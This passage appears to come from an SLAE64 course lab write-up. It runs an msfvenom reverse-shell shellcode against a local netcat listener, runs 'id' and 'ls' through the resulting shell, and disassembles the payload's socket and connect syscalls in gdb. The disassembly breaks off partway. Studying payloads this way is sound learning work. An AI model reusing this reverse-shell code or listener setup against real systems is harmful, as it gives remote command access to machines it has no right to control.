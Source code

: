 1<sup>st</sup> window:

```shell
geobour98@slae64-dev:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)

```

2<sup>nd</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/5_Msfvenom_payloads/3_reverse$ ./shellcode 
Shellcode Length: 17

```

1<sup>st</sup> window again:

```shell
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 35692)
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
shellcode
shellcode.c
exit
geobour98@slae64-dev:~$
```

#### gdb

We load `shellcode` on `gdb`, set a breakpoint at the `code` variable, run and disassemble:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/5_Msfvenom_payloads/3_reverse$ gdb ./shellcode -q
Reading symbols from ./shellcode...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) print/x &code
$1 = 0x601060
(gdb) break *0x601060
Breakpoint 1 at 0x601060
(gdb) run
Starting program: /home/geobour98/SLAE/custom/SLAE64/5_Msfvenom_payloads/3_reverse/shellcode 
Shellcode Length: 17

Breakpoint 1, 0x0000000000601060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000000000601060 <+0>:	push   0x29
   0x0000000000601062 <+2>:	pop    rax
   0x0000000000601063 <+3>:	cdq    
   0x0000000000601064 <+4>:	push   0x2
   0x0000000000601066 <+6>:	pop    rdi
   0x0000000000601067 <+7>:	push   0x1
   0x0000000000601069 <+9>:	pop    rsi
   0x000000000060106a <+10>:	syscall 
   0x000000000060106c <+12>:	xchg   rdi,rax
   0x000000000060106e <+14>:	movabs rcx,0x101017f5c110002
   0x0000000000601078 <+24>:	push   rcx
   0x0000000000601079 <+25>:	mov    rsi,rsp
   0x000000000060107c <+28>:	push   0x10
   0x000000000060107e <+30>:	pop    rdx
   0x000000000060107f <+31>:	push   0x2a
   0x0000000000601081 <+33>:	pop    rax
   0x0000000000601082 <+34>:	syscall 
   0x0000000000601084 <+36>:	push   0x3
   0x0000000000601086 <+38>:	pop    rsi
```